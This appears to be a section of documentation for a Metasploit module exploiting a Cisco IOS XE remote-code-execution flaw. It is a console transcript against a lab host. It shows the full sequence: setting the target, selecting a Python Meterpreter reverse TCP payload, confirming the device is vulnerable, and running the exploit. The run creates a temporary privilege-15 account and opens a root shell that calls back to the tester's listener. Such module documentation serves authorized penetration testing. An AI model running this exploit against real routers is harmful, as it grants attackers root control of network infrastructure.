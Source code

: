 ### Unix Target (IOS XE 16.12.3)

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.114
RHOSTS => 192.168.86.114
msf exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > show options 

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.114   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/misc/cisco_ios_xe_rce) > check 
[+] 192.168.86.114:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'vhQbLuix' with password 'JAjuUVov'
[*] Removing user 'vhQbLuix'
[*] Sending stage (24772 bytes) to 192.168.86.114
[*] Meterpreter session 11 opened (192.168.86.122:4444 -> 192.168.86.114:61966) at 2025-03-03 20:37:36 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : test2_c1000v
OS           : Linux 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019
```